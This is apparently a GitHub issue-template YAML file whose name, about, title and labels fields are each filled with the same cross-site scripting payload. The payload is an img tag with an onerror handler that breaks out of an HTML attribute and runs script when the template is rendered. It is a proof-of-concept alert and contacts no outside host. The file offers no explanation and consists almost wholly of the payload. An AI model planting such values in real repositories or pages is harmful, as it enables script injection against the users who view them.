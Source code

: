 ```yaml
---
name: "><img src=x onerror=alert(document.domain)>
about: "><img src=x onerror=alert(document.domain)>
title: '"><img src=x onerror=alert(document.domain)>'
labels: '"><img src=x onerror=alert(document.domain)>'
assignees: ''

---
```



